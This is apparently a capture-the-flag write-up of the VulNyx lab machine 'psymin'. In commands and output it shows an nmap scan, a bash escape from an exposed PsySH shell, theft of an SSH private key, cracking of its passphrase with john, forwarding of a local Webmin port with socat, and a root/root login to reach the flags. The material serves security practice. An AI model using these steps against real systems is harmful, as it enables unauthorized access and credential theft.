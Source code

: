 ```yaml
---
created: 2024-12-16T02:00
updated: 2024-12-16T02:30
---
```


[VulNyx | Cybersecurity Learning & Practice Platform](https://vulnyx.com/)

## nmap and bash

Simple shell access?

```bash
┌──(root㉿kumo-legion)-[/mnt/c/Users/zy]
└─# nmap 192.168.2.26
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-16 02:00 EST
Nmap scan report for 192.168.2.26
Host is up (0.0034s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds

┌──(root㉿kumo-legion)-[/mnt/c/Users/zy]
└─# nc 192.168.2.26 3000
Psy Shell v0.12.4 (PHP 8.2.20 — cli) by Justin Hileman
New version is available at psysh.org/psysh (current: v0.12.4, latest: v0.12.7)
> ls -la
ls -la
WARNING: terminal is not fully functional
Press RETURN to continue !bash

!bash
bash: no se puede establecer el grupo de proceso de terminal (309): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
alfred@psymin:~$ ls
ls
psysh  user.txt
alfred@psymin:~$ cat user.txt
cat user.txt
e12853c615d191efce15c726a0684754
```

## ssh key

```
alfred@psymin:~$ cd .ssh
cd .ssh
alfred@psymin:~/.ssh$ ls
ls
authorized_keys  id_rsa
alfred@psymin:~/.ssh$ cat id_rsa
```

```bash
ssh -i psymin_id_rsa alfred@192.168.2.26
Enter passphrase for key 'psymin_id_rsa'
```

Hrm, its password locked.
## john crack

```bash
ssh2john psymin_id_rsa > tmp_id_rsa
john tmp_id_rsa --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alfredo          (psymin_id_rsa)
1g 0:00:00:06 DONE (2024-12-16 02:07) 0.1564g/s 140.2p/s 140.2c/s 140.2C/s football1..ilovegod
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We got the password!

## local port scan

```bash
alfred@psymin:~$ ls
psysh  user.txt
alfred@psymin:~$ ss -lntup
Netid    State     Recv-Q     Send-Q         Local Address:Port          Peer Address:Port
udp      UNCONN    0          0                    0.0.0.0:68                 0.0.0.0:*
udp      UNCONN    0          0                    0.0.0.0:10000              0.0.0.0:*
tcp      LISTEN    0          5                    0.0.0.0:3000               0.0.0.0:*
tcp      LISTEN    0          4096               127.0.0.1:10000              0.0.0.0:*
tcp      LISTEN    0          128                  0.0.0.0:22                 0.0.0.0:*
tcp      LISTEN    0          511                  0.0.0.0:80                 0.0.0.0:*
tcp      LISTEN    0          128                     [::]:22                    [::]:*
tcp      LISTEN    0          511                     [::]:80                    [::]:*
alfred@psymin:~$
```

Expose it.

```bash
alfred@psymin:~$ socat TCP-LISTEN:3001,fork TCP4:127.0.0.1:10000
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734333522/2024/12/b0b03a598bce0c484203f3a0b0946fe4.png)

Nice.
## webmin

`root` / `root` worked.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734334240/2024/12/c9eb3f733869f41518ca7fe41f293880.png)

```bash
> ls
root.txt
> cat root.txt
8968662c86171f7a5afe387a949fe665
```

And that's it.
